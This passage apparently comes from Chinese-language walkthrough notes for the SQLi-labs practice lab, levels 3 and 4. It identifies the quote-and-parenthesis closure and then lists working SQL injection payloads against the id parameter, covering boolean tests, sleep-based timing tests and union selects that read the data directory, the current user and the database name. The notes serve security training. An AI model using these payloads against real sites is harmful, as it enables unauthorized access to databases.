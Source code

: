 + 通过报错信息可知  sql 语句闭合方式为：

+ ‘）字符型注入

+ Payload:

```bash
    ?id=3') --+  # 界面显示正常
    ?id=3') and 1=2 --+
    ?id=3') and 1=1 --+     # 界面有回显并且用变化，说明存在布尔类型的注入漏洞
    ?id=3') and sleep(5) --+  #界面网络时间线，有５ｍｓ　说明存在延时注入漏洞
```

+ 注入Payload：
```bash
    ?id=3') and 1=2 union all select 1,@@datadir,current_user() --+
```
## Less-4

+ 输入不同ID参数，页面显示不同，说明与数据库有交互，界面有回显。如果存在ｓｑｌ注入漏洞首先使用联合查询方式
参数后输入单引号　，页面没有变化　，输入双引号，页面报错。从报错信息中可知，

+ 闭合方式：
　　”）
　　字符型注入

```bash
    ?id=4")  --+　　　　　　　＃页面很和谐　，显示正常　
    ?id=4") and 1= 2 --+
    ?id=4") and 1= １ --+　　＃存在布尔类型注入
    ?id=4") and sleep(5) --+　＃存在延时类型注入
```

+ Payload :
```bash
    ?id=4") and 1=2 union all select 1,hex(database()),user() --+
```
![IMAG](img/less-4.png)
